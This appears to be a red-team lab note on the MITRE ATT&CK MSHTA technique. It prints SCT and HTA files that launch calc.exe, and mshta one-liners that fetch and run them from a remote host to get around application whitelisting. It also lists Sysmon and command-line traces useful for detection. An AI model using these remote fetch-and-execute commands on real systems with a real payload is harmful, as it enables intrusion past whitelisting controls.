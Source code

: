 ```yaml
---
description: MSHTA code execution - bypass application whitelisting.
---
```


# T1170: MSHTA

## Code

{% code-tabs %}
{% code-tabs-item title="http://10.0.0.5/m.sct" %}
```markup
<?XML version="1.0"?>
<scriptlet>
<registration description="Desc" progid="Progid" version="0" classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"></registration>

<public>
    <method name="Exec"></method>
</public>

<script language="JScript">
<![CDATA[
	function Exec()	{
		var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
	}
]]>
</script>
</scriptlet>
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Execution

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```bash
# from powershell
/cmd /c mshta.exe javascript:a=(GetObject("script:http://10.0.0.5/m.sct")).Exec();close();
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Observations

As expected, calc is spawned by mshta. Also, mhsta and cmd exit almost immediately after invoking the calc.exe.

![](../.gitbook/assets/mshta-calc.png)

Look at sysmon for mshta establishing network connections:

![](../.gitbook/assets/mshta-connection.png)

Also, suspicious commandlines:

![](../.gitbook/assets/mshta-commandline.png)

## Additionally

The hta file can be invoked like so:

```bash
mshta.exe http://10.0.0.5/m.hta
```

![](../.gitbook/assets/mshta-calc2.png)

or by navigating to the file itself, launching it and clicking run:

![](../.gitbook/assets/mshta-url.png)

{% code-tabs %}
{% code-tabs-item title="http://10.0.0.5/m.hta" %}
```markup
<html>
<head>
<script language="VBScript"> 
    Sub RunProgram
        Set objShell = CreateObject("Wscript.Shell")
        objShell.Run "calc.exe"
    End Sub
RunProgram()
</script>
</head> 
<body>
    Nothing to see here..
</body>
</html>
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1170\",\"type\":\"link\",\"title\":\"Mshta - ATT&CK for Enterprise\"}" %}

